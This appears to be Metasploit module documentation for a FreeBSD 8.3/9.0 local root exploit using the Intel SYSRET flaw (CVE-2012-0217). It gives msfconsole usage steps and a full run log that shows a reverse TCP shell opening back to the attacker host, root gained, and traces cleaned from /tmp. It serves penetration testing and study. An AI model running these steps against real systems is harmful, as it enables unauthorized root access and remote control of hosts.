 ## Description

  This module exploits a vulnerability in the FreeBSD kernel,
  when running on 64-bit Intel processors.

  By design, 64-bit processors following the X86-64 specification will
  trigger a general protection fault (GPF) when executing a SYSRET
  instruction with a non-canonical address in the RCX register.

  However, Intel processors check for a non-canonical address prior to
  dropping privileges, causing a GPF in privileged mode. As a result,
  the current userland RSP stack pointer is restored and executed,
  resulting in privileged code execution.


## Vulnerable Application

  This module has been tested successfully on:

  * FreeBSD 8.3-RELEASE (amd64)
  * FreeBSD 9.0-RELEASE (amd64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/freebsd/local/intel_sysret_priv_esc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

### FreeBSD 9.0-RELEASE

  ```
  msf > use exploit/freebsd/local/intel_sysret_priv_esc 
  msf exploit(freebsd/local/intel_sysret_priv_esc) > set session 1
  session => 1
  msf exploit(freebsd/local/intel_sysret_priv_esc) > set lhost 123.123.123.188
  lhost => 123.123.123.188
  msf exploit(freebsd/local/intel_sysret_priv_esc) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 123.123.123.188:4444 
  [+] FreeBSD version 9.0-RELEASE appears vulnerable
  [+] System architecture amd64 is supported
  [+] hw.model: Intel(R) Core(TM) i9-1337 CPU @ 9.99GHz is vulnerable
  [*] Writing '/tmp/.mTaR4rAPd.c' (4781 bytes) ...
  [*] Max line length is 131073
  [*] Writing 4781 bytes in 1 chunks of 17475 bytes (octal-encoded), using printf
  [*] Writing '/tmp/.LBGkIVh' (218 bytes) ...
  [*] Max line length is 131073
  [*] Writing 218 bytes in 1 chunks of 614 bytes (octal-encoded), using printf
  [*] Launching exploit...
  [*] CVE-2012-0217 Intel sysret exploit -- iZsh (izsh at fail0verflow.com)
  [*] 
  [*] [*] Retrieving host information...
  [*]     [+] CPU: GenuineIntel
  [*]     [+] sysname: FreeBSD
  [*]     [+] release: 9.0-RELEASE
  [*]     [+] version: FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC
  [*]     [+] machine: amd64
  [*] [*] Validating target OS and version...
  [*]     [+] Vulnerable :-)
  [*] [*] Resolving kernel addresses...
  [*]     [+] Resolved Xofl to 0xffffffff80b02e70
  [*]     [+] Resolved Xbnd to 0xffffffff80b02ea0
  [*]     [+] Resolved Xill to 0xffffffff80b02ed0
  [*]     [+] Resolved Xdna to 0xffffffff80b02f00
  [*]     [+] Resolved Xpage to 0xffffffff80b03240
  [*]     [+] Resolved Xfpu to 0xffffffff80b02fc0
  [*]     [+] Resolved Xalign to 0xffffffff80b03080
  [*]     [+] Resolved Xmchk to 0xffffffff80b02f60
  [*]     [+] Resolved Xxmm to 0xffffffff80b02ff0
  [*] [*] Setup...
  [*]     [+] Trigger code...
  [*]     [+] Trampoline code...
  [*] [*] Fire in the hole!
  [*] [*] Got root!
  [+] Success! Executing payload...
  [*] Command shell session 2 opened (123.123.123.188:4444 -> 123.123.123.136:61024) at 2018-12-09 10:40:16 -0500
  [+] Deleted /tmp/.mTaR4rAPd.c
  [+] Deleted /tmp/.mTaR4rAPd
  [+] Deleted /tmp/.LBGkIVh

  id
  uid=0(root) gid=0(wheel) groups=0(wheel)
  uname -a
  FreeBSD freebsd-9-0 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
  ```


